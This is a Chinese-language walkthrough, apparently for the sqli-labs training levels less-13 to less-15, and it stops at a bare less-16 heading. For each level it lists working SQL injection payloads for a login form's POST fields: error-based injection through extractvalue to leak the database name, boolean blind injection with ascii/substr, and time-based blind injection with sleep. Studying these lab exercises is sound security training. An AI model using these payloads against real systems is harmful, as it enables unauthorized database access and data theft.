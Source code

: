 

### less-13

#### 考点：注释+报错注入

#### 思路：

**payload**

```
uname=1') and extractvalue(1,payload)%23
&passwd=1&submit=Submit

uname=1') and extractvalue(1,concat('~',(select database())))%23
&passwd=1&submit=Submit		//爆库，其他的就是正常的报错注入了
```



### less-14

#### 考点：注释+报错注入

#### 思路：

与13题一样，只是闭合符号不一样

**payload**

```
uname=1" and extractvalue(1,payload)%23
&passwd=1&submit=Submit
```



### less-15

#### 考点：布尔/时间盲注

#### 思路：

**payload**

```
uname=1' or ascii(substr(payload,1,1))>112%23
&passwd=1&submit=Submit		//填入payload

uname=1' or ascii(substr(database(),1,1))>112%23
&passwd=1&submit=Submit		//boll型

uname=1' or if(length(database())>1,sleep(3),1)%23
&passwd=1&submit=Submit		//时间型
```



### less-16
